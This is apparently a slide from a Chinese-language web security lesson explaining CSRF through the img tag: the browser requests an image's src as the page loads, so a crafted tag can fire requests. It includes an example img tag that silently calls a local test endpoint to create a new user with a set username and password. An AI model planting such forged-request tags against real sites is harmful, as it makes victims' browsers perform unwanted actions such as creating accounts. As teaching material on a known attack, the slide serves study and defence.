

img标签利用
img标签的内容会随着页面加载而被请求，以此src指向的位置会在页面加载过程中进行请求。

<img src=”http://127.0.0.1/csrf_test/get_csrf/new_user.php?username=liuxiaoyang&password=123456” />